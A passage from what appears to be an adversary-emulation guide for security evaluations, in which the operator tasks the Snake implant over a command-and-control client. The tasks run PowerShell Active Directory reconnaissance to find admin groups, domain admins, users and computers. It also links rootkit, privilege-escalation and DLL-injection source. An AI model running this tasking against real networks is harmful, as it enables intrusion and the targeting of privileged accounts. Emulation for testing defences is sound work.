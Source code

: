 * Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management", 
as members of these groups will likely have elevated permissions on the network.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```
:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin` shows up in the list of accounts.

* Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```
:heavy_exclamation_mark: Ensure that `Zilvinas' Workstation` appears in the `Description` field for `uosis`

---

### :moyai: Source Code

* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L179)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution via cmd](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Generic process execution with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)